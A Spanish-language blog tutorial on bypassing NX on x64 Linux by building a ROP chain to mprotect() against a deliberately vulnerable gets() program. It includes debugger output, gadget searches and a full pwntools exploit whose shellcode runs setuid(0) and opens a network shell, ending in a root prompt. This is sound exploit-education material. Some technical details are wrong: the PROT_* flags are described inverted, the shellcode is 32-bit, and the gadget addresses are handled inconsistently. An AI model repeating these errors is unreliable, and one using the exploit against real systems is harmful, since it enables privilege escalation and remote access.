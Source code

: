 ```yaml
---
layout: post
title: Bypass NX usando mprotect() en x64
author: c4rta
date: 2023-02-26
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, ROP]
image: /assets/img/heap2/waifu3.jpg
---
```

En ocasiones se nos presenta la situacion donde tenemos el NX activado y tenemos que recurrir a tecnicas como ```ret2libc```, ```ret2reg```, mas que nada tecnicas que usen ```ROP```. Asi que ahora te voy a mostrar como usar ```mprotect()``` para volver a marcar el stack como ejecutable y puedas inyectar una shellcode.
{:.lead}

## mprotect()

Segun la man page de Linux ```mprotect``` es:

mprotect () cambia las protecciones de acceso para las páginas de memoria del proceso de llamada que contienen cualquier parte del rango de direcciones en el intervalo [addr, addr+len-1]. addr debe estar alineado con el límite de la página... En caso de éxito, mprotect () devuelve cero. En caso de error, esta llamada al sistema devuelve -1 y errno para indicar el error. se establece

Y aca mas entendible seria que mprotect es la funcion que establece los permisos de lectura y escritura a cierta area de memoria. Esta funcion toma 3 argumentos:

- Una direccion inicial
- La longitud, que seria el rango en que podemos modificar
- Y una combinacion de banderas que son las que haran que se establezcan los permisos, estas banderas son:
    - **PROT_READ**: La memoria no se puede leer
    - **PROT_WRITE**: La memoria no se puede modificar/escribir
    - **PROT_EXEC**: La memoria no se puede ejecutar o no es ejecutable


## Crafteando el exploit

### Codigo vulnerable

```c
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
```
No hace falta hacer reversing por que la vulnerabilidad se encuentra en la funcion ```gets```

Como estamos en 64 bits los primero 6 argumentos se pasan los registros RDI, RSI, RDX, RCX, R8 y R9, y cualquier cosa despues se empieza a pasar por el stack.

En x64 para poder hacer esta tecnica ocupados de:

- La direccion base de libc
- Un gadget **pop rdi**; ret: este funcionara para poner la direccion de la pila en rdi
- Un gadget **pop rsi**; ret: esta funcionara para poner la longitud en rsi
- Un gadget **pop rdx**; ret,: este funcionara para establecer el valor 0x7 en rdx, este valor es el de los permisos de lectura, escritura y ejecucion.

Algo asi se llamaria a la funcion mprotect:

```c
#incluye <sys/mman.h> 

       int mprotect(void * addr, size_t len, int prot);
                            |            |        |
                            |            |        |
                           RDI          RSI      RDX
```

### Sacando la direccion de libc

Dentro del debugger podemos ingresar el comando ```vmmap libc```, obviamente antes hay que ejecutar el binario. Podemos ver la direccion base de libc:

```
gef➤  vmmap libc
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x007ffff7db6000 0x007ffff7dd8000 0x00000000000000 r-- /usr/lib/libc.so.6
0x007ffff7dd8000 0x007ffff7f32000 0x00000000022000 r-x /usr/lib/libc.so.6
0x007ffff7f32000 0x007ffff7f8a000 0x0000000017c000 r-- /usr/lib/libc.so.6
0x007ffff7f8a000 0x007ffff7f8e000 0x000000001d4000 r-- /usr/lib/libc.so.6
0x007ffff7f8e000 0x007ffff7f90000 0x000000001d8000 rw- /usr/lib/libc.so.6
gef➤ 
```
La direccion que usare es ```0x007ffff7db6000```

### Offset del RIP

Como estamos en x64 podemos hacer uso del offset del RSP o del RBP y sumarle 8.

Como estoy usando GEF, ingresare el comando ```pattern create 300```, para generar 300 caracteres que le pasaremos como input. Una vez que el programa pete ingresare ```pattern offset $rbp``` para pasar el offset del RBP:

```
gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 256 (little-endian search) likely
```
Ahora le sumamos 8 y nos da 264 que seria el desplazamiento para llegar al RIP.

Hace rato les mencione que mprotect recibia un argumento que es la longitud, debido a que la cadena que le metimos esta desde la direccion ```0x007fffffffe418```, podemos usar una direccion anterior lo suficientemente grande. Regularmente la longitud que se le pasa a mprotect en estos casos es ```0x1000```, la cual podra ser desde la direccion ```0x7ffffffffe000```

```
0x007fffffffe418│+0x0000: "iaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa"	 ← aca estan
0x007fffffffe420│+0x0008: "jaaaaaabkaaaaaablaaaaaabmaaa"
0x007fffffffe428│+0x0010: "kaaaaaablaaaaaabmaaa"
0x007fffffffe430│+0x0018: "laaaaaabmaaa"
0x007fffffffe438│+0x0020: 0x007f006161616d ("maaa"?)
0x007fffffffe440│+0x0028: 0x007fffffffe528  →  0x007fffffffe89f  →  "/home/c4rta/Downloads/mprotect"
0x007fffffffe448│+0x0030: 0xc91dfa2faf99b844
0x007fffffffe450│+0x0038: 0x0000000000000000
────────────────────────────────────────────
```

Hasta ahora nuestro exploit va asi:

```py
from pwn import *

p = process("./mprotect")

shellcode = b"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xf7"
shellcode+= b"\xe3\xb0\x66\x53\x43\x53\x43\x53\x89\xe1\x4b"
shellcode+= b"\xcd\x80\x89\xc7\x52\x66\x68\x7a\x69\x43\x66"
shellcode+= b"\x53\x89\xe1\xb0\x10\x50\x51\x57\x89\xe1\xb0"
shellcode+= b"\x66\xcd\x80\xb0\x66\xb3\x04\xcd\x80\x50\x50"
shellcode+= b"\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xd9\x89"
shellcode+= b"\xc3\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x51\x68"
shellcode+= b"n/sh\x68//bi\x89\xe3\x51\x53\x89\xe1\xb0\x0b"
shellcode+= b"\xcd\x80"

libc_base = 0x007ffff7db6000
rip_offset = 264
stack_addr = 0x7ffffffffe000
size = 0x1000
```

### Direccion de mprotect

Dentro de gdb podemos usar ```p mprotect``` y nos da esto:

```
gef➤  p mprotect
$1 = {<text variable, no debug info>} 0x7ffff7eb62f0 <mprotect>
```

### Direcciones de los gadgets

En mi caso usare ROPGadget pero puden usar ropper o radare2, aqui les puedo decir que no me arrojo ningun gadget, eso no es problema cuando se nos proporciona la libreria que esta usando, en este caso como lo compile en mi maquina, uso la libreria que se encuentra en ```/usr/lib/libc.so.6```, asi que esa la podemos usar para sacar los gadgets con el comando:

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi"```: 0x0000000000023d35

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rsi"```: 0x0000000000025641

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdx"```: 0x000000000004e062


### Ejecutando el exploit final

Despues de agregar lo que le falta tenemos este exploit:

```py
from pwn import *

p = process("./mprotect")

shellcode = b"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xf7"
shellcode+= b"\xe3\xb0\x66\x53\x43\x53\x43\x53\x89\xe1\x4b"
shellcode+= b"\xcd\x80\x89\xc7\x52\x66\x68\x7a\x69\x43\x66"
shellcode+= b"\x53\x89\xe1\xb0\x10\x50\x51\x57\x89\xe1\xb0"
shellcode+= b"\x66\xcd\x80\xb0\x66\xb3\x04\xcd\x80\x50\x50"
shellcode+= b"\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xd9\x89"
shellcode+= b"\xc3\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x51\x68"
shellcode+= b"n/sh\x68//bi\x89\xe3\x51\x53\x89\xe1\xb0\x0b"
shellcode+= b"\xcd\x80"

libc_base = 0x007ffff7db6000
rip_offset = 264
stack_addr = 0x7ffffffffe000
size = 0x1000
mprotect_addr = 0x7ffff7eb62f0
pop_rdi = 0x0000000000023d35
pop_rsi = 0x0000000000025641
pop_rdx = 0x000000000004e062

payload = b"\x90" * 264
payload += p64(pop_rdi)
payload += p64(stack_addr)
payload += p64(pop_rsi)
payload += p64(size)
payload += p64(0xAAAAAAAAAAAAAAAA) #junk para r15
payload += p64(libc_base + pop_rdx)
payload += p64(0x7)
payload += p64(mprotect_addr)
payload += p64(0x007fffffffe418) #direccion desde donde comenzara la shellcode
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
```
**Ojo:** Antes de ejecutarlo hay que ponernos en escucha por el puerto 31337, ya que la shellcode ejecuta un ```setuid(0)``` y establece una conexion con nosotros mismos por ese puerto


```
󰣇  c4rta ~/Downloads  nc 192.168.1.76 31337 -v
Connection to 192.168.1.76 31337 port [tcp/*] succeeded!
whoami
root
```

Y asi conseguimos ser root, muchas gracias por leer ❤